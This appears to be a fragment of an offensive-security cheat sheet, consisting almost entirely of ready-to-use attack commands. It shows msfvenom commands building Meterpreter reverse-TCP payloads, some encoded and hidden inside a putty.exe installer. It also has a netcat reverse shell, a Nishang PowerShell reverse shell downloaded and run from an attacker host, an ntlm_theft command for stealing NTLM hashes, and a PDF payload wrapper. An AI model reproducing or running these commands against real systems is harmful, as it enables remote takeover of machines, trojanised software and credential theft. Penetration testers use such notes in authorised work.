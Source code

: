 ```c
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f csharp
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f exe -o <FILE>.exe -e x64/zutto_dekiru -i 10 -x ./putty.exe -k
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread PREPENDMIGRATE=true PREPENDMIGRATEPROC=explorer.exe -f exe -o <FILE>.exe -e x64/zutto_dekiru -i 10 -x ./putty.exe -k
```

## Netcat Reverse Shell

```c
$ nc -e /bin/sh <LHOST> <LPORT>
```

## Nishang

> https://github.com/samratashok/nishang

### Reverse-TCP Shell for Windows

```c
$ cd PATH/TO/nishang/Shells/
$ cp Invoke-PowerShellTcp.ps1 Invoke-PowerShellTcp.ps1
```

Choose which variant you require, copy and put it at the end of the file.

```c
tail -3 Invoke-PowerShellTcp.ps1 
}

Invoke-PowerShellTcp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

```c
C:\> powershell "IEX(New-Object Net.Webclient).downloadString('http://<LHOST>:<LPORT>/Invoke-PowerShellTcp.ps1')"
```

## ntml_theft

```c
$ python3 ntlm_theft.py --generate all --server <RHOST> --filename <FOLDER>
```

## PDF

### Magic Bytes

```c
%PDF-1.5
<PAYLOAD>
%%EOF
```
